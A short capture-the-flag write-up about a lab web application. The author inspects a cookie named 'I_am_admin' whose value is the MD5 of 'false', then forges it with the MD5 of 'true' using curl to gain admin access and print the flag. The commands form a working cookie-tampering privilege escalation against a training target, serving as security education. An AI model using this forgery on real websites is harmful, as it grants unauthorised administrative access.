 # cookie

i noticed that the website stores a cookie called `I_am_admin` with a peculiar value

```sh
e1z2r10p4% curl -v -s 'http://192.168.99.100' -o /dev/null
* Rebuilt URL to: http://192.168.99.100/
*   Trying 192.168.99.100...
* TCP_NODELAY set
* Connected to 192.168.99.100 (192.168.99.100) port 80 (#0)
> GET / HTTP/1.1
> Host: 192.168.99.100
> User-Agent: curl/7.54.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< Server: nginx/1.8.0
< Date: Tue, 05 Mar 2019 03:41:11 GMT
< Content-Type: text/html
< Transfer-Encoding: chunked
< Connection: keep-alive
< X-Powered-By: PHP/5.3.10-1ubuntu3.19
< Set-Cookie: I_am_admin=68934a3e9455fa72420237eb05902327; expires=Tue, 05-Mar-2019 04:41:11 GMT
< 
{ [6905 bytes data]
* Connection #0 to host 192.168.99.100 left intact
```

the value is `68934a3e9455fa72420237eb05902327` and it looks like a hash,

after a quick google search, i learned that its an **md5** hash of the string _**false**_

 ... hmm, what if we set that cookie value to an **md5** hash of the string _**true**_ ?
 
 let's find out ...
 
 
 ```sh
 e1z2r10p4% curl -s 'http://192.168.99.100' -o before.html
e1z2r10p4% echo -n 'true' | md5                          
b326b5062b2f0e69046810717534cb09
e1z2r10p4% curl -s --cookie 'I_am_admin=b326b5062b2f0e69046810717534cb09' 'http://192.168.99.100' -o after.html 
e1z2r10p4% diff before.html after.html 
1c1
< <!DOCTYPE HTML>
---
> <script>alert('Good job! Flag : df2eb4ba34ed059a1e3e89ff4dfc13445f104a1a52295214def1c4fb1693a5c3'); </script><!DOCTYPE HTML>
e1z2r10p4% 
```

##### we have the flag `df2eb4ba34ed059a1e3e89ff4dfc13445f104a1a52295214def1c4fb1693a5c3`
that was easy

